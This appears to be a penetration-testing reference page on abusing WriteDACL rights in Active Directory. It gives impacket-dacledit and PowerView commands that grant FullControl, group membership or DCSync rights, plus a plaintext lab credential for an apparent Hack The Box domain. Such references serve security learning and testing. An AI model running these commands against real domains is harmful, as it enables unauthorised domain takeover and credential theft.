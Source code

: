 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# WriteDACL

## Information

With `Write` access to the target object’s DACL, you can **grant yourself any privilege you want on the object**.

{% tabs %}
{% tab title="Users" %}
Grant yourself `FullControl` of the user:

{% code overflow="wrap" %}
```bash
# Assigning FullControl permissions over the user with Impacket
impacket-dacledit -action write -rights FullControl -principal ryan -target ca_svc sequel.htb/ryan:WqSZAF6CysDQbGb3
```
{% endcode %}

```powershell
# Assigning GenericAll permissions over the user with PowerView
Add-DomainObjectAcl -TargetIdentity harmj0y -Rights All
```

See [here](fullcontrol.md) for exploitation options.
{% endtab %}

{% tab title="Groups" %}
Grant yourself `FullControl` of the group:

```powershell
# Powerview
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -Rights WriteMembers
```

&#x20;This can be leverage to add members to the group (see [here](genericall.md#over-a-group)).
{% endtab %}

{% tab title="Hosts" %}
Grant yourself `FullControl` of the computer:

```powershell
# Assigning GenericAll permissions over the computer
Add-DomainObjectAcl -TargetIdentity windows01 -Rights All
```

This can be leveraged to [read the LAPS password](readlapspassword.md) or perform [RBCD](broken-reference) against the target host.
{% endtab %}

{% tab title="Domains" %}
Grant yourself `DCSync` rights:

```powershell
Add-DomainObjectAcl -TargetIdentity testlab.local -Rights DCSync
```

This can be leveraged to perform a [DCSync attack](dcsync.md).
{% endtab %}

{% tab title="GPOs" %}
Grant yourself `FullControl` of the GPO:

```powershell
Add-DomainObjectAcl -TargetIdentity TestGPO -Rights All
```

This can be leveraged to edit the GPO and take over an object the GPO applies to.
{% endtab %}

{% tab title="OUs" %}
Grant yourself `FullControl` of the OU:

```powershell
Add-DomainObjectAcl -TargetIdentity <OU-GUID> -Rights All
```

This can be leveraged to add a new ACE to the OU that inherits down to child objects so we can then take over those child objects.
{% endtab %}
{% endtabs %}
